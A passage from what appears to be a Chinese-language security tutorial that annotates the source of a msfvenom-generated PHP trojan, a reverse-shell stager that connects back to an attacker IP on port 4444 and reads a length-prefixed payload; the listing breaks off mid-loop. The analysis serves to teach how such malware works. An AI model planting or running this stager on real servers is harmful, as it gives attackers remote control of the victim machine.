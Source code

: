 ### 4.2 分析 PHP 木马代码

对于使用 msfvenom 生成的 PHP 木马，其源代码如下所示：

```
/*<?php /**/ error_reporting(0); 

// 攻击者的目标 ip 地址
$ip = '192.168.122.101';

// 攻击者的端口为 4444
$port = 4444;

if (($f = 'stream_socket_client') && is_callable($f)) { 
    
    // 连接 ip 地址和端口
    $s = $f("tcp://{$ip}:{$port}");
    $s_type = 'stream'; 
} elseif (($f = 'fsockopen') && is_callable($f)) {

    // 由 ip 地址和端口两个参数连接
    $s = $f($ip, $port); 
    
    // 类型 type 为 stream
    $s_type = 'stream';
} elseif (($f = 'socket_create') && is_callable($f)) {

    $s = $f(AF_INET, SOCK_STREAM, SOL_TCP);
    
    // 由协议，ip 地址，端口三者确立连接
    $res = @socket_connect($s, $ip, $port);
    
    // 判断是否为空，为空则终止脚本函数
    if (!$res) { 
        die(); 
    } 
    
    // 连接的数据类型
    $s_type = 'socket'; 
} else { 
        die('no socket funcs'); 
} 

// 如果没有 socket 连接，则报错
if (!$s) {
    die('no socket'); 
} 

switch ($s_type) { 
    case 'stream': $len = fread($s, 4); break;
    case 'socket': $len = socket_read($s, 4); break;
} 

// 根据长度判断是否为空，为空则终止脚本函数
if (!$len) {
    die(); 
} 

$a = unpack("Nlen", $len);
$len = $a['len']; 
$b = ''; 

while (strlen($b) < $len) {

```